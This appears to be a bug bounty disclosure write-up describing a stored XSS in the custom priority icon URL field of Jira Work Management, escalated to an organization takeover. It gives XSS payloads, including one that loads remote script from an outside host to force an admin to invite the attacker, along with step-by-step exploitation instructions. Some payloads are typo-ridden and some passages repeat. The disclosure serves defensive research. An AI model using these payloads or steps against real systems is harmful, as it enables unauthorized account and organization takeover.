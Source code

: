 # Summary

We found various XSS(cross site scripting) bugs on jira  here is an account of a *stored xss* in jira work managemnet. This stored XSS lead to *Org takeover*.  You will be reading about the prominent bug and how it lead us to overtake the **Jira organization**.

Jira is a widely used software to manage and collaborate on various tasks. Jira will help you to manage all kinds of use cases of your product. It can help you to track the issues, bugs for your products. Jira eventually evolved in a work management tool for organizations. For tracking issues in _jira work managemnet_, we found a simple yet useful feature which were called as **Priority levels**. Priority conveyed *severity levels* of the issues/bugs for the organization. 

{{Picture of priority levels}}

We found a user who had a permission on a particular *project* in work management can *create customised priority levels*. Which in other words gave us the *control to input and store data fields* as *priority levels*.  It was there, we stored our inputs, after digging and anayzing the *stored inputs* we found an optimal location in the *url field* to store our **XSS payload**. The xss payload was being stored in the url field, of the customized priority. The payload in url field was quite simple  `https://www.google.com?name=<script>alrert('snapsec')</alert)`. After we got the *pop up* we escalated it to the **organization takeover**. Organization takeover means *inviting attacker* in all other *jira products* of the **organization as an admin**. 

## What is stored XSS?

Stored XSS is that type of XSS vulnerability which will allow the attacker to store *malicious code(javascrip code)* on the server. These instances are common when an *application* let's its users to store user input. The examples of such instances can be *message boards, name fields* and particular;y in this case it was the **priority levels**.


#  Impact

In the context of web application the Stored XSS has an Known impact, Stored XSS (also known as second-order XSS) is the most dangerous type of cross-site scripting attack. The reason is that it does not require users to click a malicious link or perform any activity, other than browsing to a legitimate web page. Once an attacker discovers a stored XSS vulnerability and stores the XSS code into the context of the the target web application, all visitors to affected pages can be compromised by either stealing their session cookies/Tokens or making several changes(email-change etc) to their account leading to full account takeover impact.

The challenge for us was demonstrating the proper impact of the vulnerability. Because this was an authenticated XSS, we went straight to Jira User management and spent some time understanding user roles and their and levels of access within the application.The goal was to find the lowest-level role possible that could create the Custom Priority with an XSS payload and then deliver the attack to Admin/Super admins within the organisation.

And we landed on  `Product admin permission`  , attacker had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties. We crafted our js code in such a way that it added the attacker in all other *jira products* as an admin, and hence we as an attacker *overtook* the jira organization.

{{picture from of permission model}}


# Description

As hinted earlier *jira work management* let's its users to create *customised priorities* for the *projects*. The **priority level** conveys the severity of an issue so that agents can react accordingly, it identifies the relative importance of an incident and is usually based on the impact and urgency of an issue.

So, once an attacker was given access to one project in the *jira work management* , he can *create his customised* priority levels. We created one *customised priority level*.  We tried various basic XSS payloads on the given input fields and found they were *encoded properly*. But below there was *an icon* url for the *priority* and we just *posted a random domain* with the *protocol https*. We found that no characters were *encoded* or *stripped* from the url. Then it was a basic *instinct to* add a *parameter* to this *url* and in the value of the parameter, we *injected our XSS payload*.  It looked something like this `https://www.google.com?name-<script>alert(0)</script>`. 

It was found that was no *encoding or other defenses* for this *input field* and we directly after saving the *priority* we got a *Pop up*.

{{Pop up picture}}

After that we escalated this *stored xss* to an *organization takeover*. Attacker who only had permissions in one *project of workamangement* could *now be an admin* of the *whole jira ccount*. This was accomplished by *understanding the roles and permissions* of the *jira organization* finely. We spent time understanding the *permission model* and later used those *permissions*  to escalate the *role of attacker* to *organization admin* of the all products of jira. You can read this in more detail in the **Technical Analysis section**.


====================================================================================================================================================================

# Technical analysis
Jira Work Management is a widely used collaboration tool designed to help teams track all activity considered work. Work might include running projects, managing approval processes, performing daily and periodic tasks, creating documents, and a lot more.

Our team recently found an Stored XSS issue in Jira Work management which allowed them to demonistrate an Full Orginisation Takeover impact within Jira Work Management Software of Atlassian.

## Technical Analysis

Jira work management is one of the products that lie within Atlaissian Eco-system and is accessable through the url `bugbounty-test-<bugcrowd-name>.atlassian.net/jira/your-work`


![image](https://user-images.githubusercontent.com/88488902/196861542-5a40d52e-c7d6-42e4-bc19-ea9b2df7b71d.png)

Different organizations use Jira work Management to track different kinds of issues, which can represent anything from a software bug, to a project task, or a leave request form.

![image](https://user-images.githubusercontent.com/88488902/196862718-107760da-0dbd-4fe6-90a5-59cae71ab8de.png)


users can create issues and track them, Issues in Jira are made up of fields that store various pieces of information. Every issue comes with default system fields, like name or description, Periority etc, An issue's priority indicates its relative importance within the target Orginisation.

Jira Work Management provide  default priorities values like(Highest, High, Medium, Low, Lowest) But Both the priorities and their meanings can be customized by your administrator to suit your organization. 


We Noticed An user with proper permissions can create a new Custom Periority with icon URL Property set to `https://google.com?name=</script><script>alert(0)</script>` 

![image](https://user-images.githubusercontent.com/88488902/196863642-d9afd97e-14ad-4001-acdd-0cd8906d55a4.png)


On Saving the Periority, it seems there was no Validation(Encoding) or `Icon Url` property happening at the backend, hence triggered an XSS at the Frontend.

![image](https://user-images.githubusercontent.com/88488902/196864070-f2f97700-bed7-41a4-a30d-ae234d961b48.png)




## Impact

In the context of web application the Stored XSS has an Known impact, Stored XSS (also known as second-order XSS) is the most dangerous type of cross-site scripting attack. The reason is that it does not require users to click a malicious link or perform any activity, other than browsing to a legitimate web page. Once an attacker discovers a stored XSS vulnerability and stores the XSS code into the context of the the target web application, all visitors to affected pages can be compromised by either stealing their session cookies/Tokens or making several changes(email-change etc) to their account leading to full account takeover impact.

The real challenge for us was demonstrating the proper impact of the vulnerability. Because this was an authenticated XSS, we went straight to Jira User management and spent some time understanding user roles and their and levels of access within the application.

The goal was to find the lowest-level role possible that could create the Custom Priority with an XSS payload and then deliver the attack to Admin/Super admins within the organisation.

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)

and we landed on `Product admin permission` , He had no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.


## In org takeover

Now let's assume we have invited an User with Product admin permission > he has no permission to access any of the jira products like Confluence, Service management which means he don't have access to any Jira applications but can perform administration tasks which includes Editing Issues Periorties.

- Login with an User with Product admin permission , Click on Setting Icon and then Click on Issues

![image](https://user-images.githubusercontent.com/88488902/196865675-619bd57f-ba4a-4b65-81ab-deddd7a2461c.png)


- Now Scroll down and Add a new Priorities with the following icon url, and click ADD button `https://google.com?name=</script><script src=https://snapsec.co/jira-xss.js></script>`


![image](https://user-images.githubusercontent.com/88488902/196865804-378e702f-3d10-4220-b8b4-3b9de3bab597.png)



- Now as soon as Admin Visits the same page from his browser, An invite request will be sent from his browser .

![image](https://user-images.githubusercontent.com/88488902/196865837-2ef2a8e5-a04a-4285-ac34-acb116e64bf4.png)

- and to confirm you can go to user management and see attacker forced admin to invited a new user with access to 3 products, Hence would allow him to view/create/delete/modify projects in those products


![image](https://user-images.githubusercontent.com/88488902/196865866-8a6f5e62-9aeb-4dbd-b77e-9f0f87f701d5.png)






